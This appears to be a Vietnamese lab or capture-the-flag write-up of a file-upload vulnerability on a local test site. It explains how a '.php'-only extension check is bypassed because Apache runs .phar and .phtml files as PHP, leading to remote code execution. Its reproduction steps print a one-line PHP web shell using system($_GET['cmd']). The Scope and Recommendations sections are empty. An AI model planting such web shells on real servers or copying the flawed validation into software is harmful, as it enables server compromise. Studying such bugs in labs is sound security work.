





# File Upload ở localhost:12003
### 1. Tổng quan

- lv3 là 1 website để upload file, bấm vào nút Choose File để up file, sau đó submit và có thể click vào link xem nội dụng file đã up

    
    
Báo cáo này liệt kê các lỗ hổng bảo mật và những vấn đề liên quan được tìm thấy trong quá trình kiểm thử
website. Quá trình kiểm thử được thực hiện dưới hình thức blackbox/Whitebox testing.
### 2. Phạm vi
### 3. Lỗ hổng 

#### Description

Trang web `http://localhost:12003/` là 1 website cho phép upload file và truy nhập trực tiếp file sau khi submit bằng cách click vào link đó.
    
#### Impact

Tại đây, kẻ tấn công có thể upload file chứa mã php và thực thi mã tùy ý trên server, dẫn đến **Remote Code Execution (RCE)**.

#### Root-cause analysis

Trong mã nguồn `src/index.php`, file upload **đã được validate extention .php** bằng cách dùng hàm  `end(explode(".", $filename))` để lấy phần tử cuối cùng của file upload sau dấu chấm tránh việc excecute code php.

    $filename = $_FILES["file"]["name"];
    $extension = end(explode(".", $filename));
    if ($extension === "php") {
        die("Hack detected");
    }
    $file = $dir . "/" . $filename;
    move_uploaded_file($_FILES["file"]["tmp_name"], $file);

Nhưng Anh dev không để ý hành vi của apache mà anh ta đã cấu hình
Vì Trong httpd Apache2, có một loại file cấu hình đặc biệt(`docker-php.conf`) để quyết định rằng loại file nào Apache2 sẽ đưa cho mod-php xử lý.  

Thấy trong mã nguồn `docker-php.conf` đang cấu hình sai hành vi của apache, dẫn tới việc cho phép apache sẽ đưa cho mod-php xử lý các extention **.phar, .phtml** như extention .php

    <FilesMatch ".+\.ph(ar|p|tml)$">
        SetHandler application/x-httpd-php
    </FilesMatch>

#### Steps to reproduce
1. Upload file có tên

    test.phar chứa nội dung:

        <?php
            phpinfo();
        ?>
        
    
2. Truy cập vào link

    Để apache xử lý:
    

3. RCE

    test.php chứa nội dung:

        <?php
            system($_GET['cmd']);
        ?>

    
    
#### Recommendations

    
    
    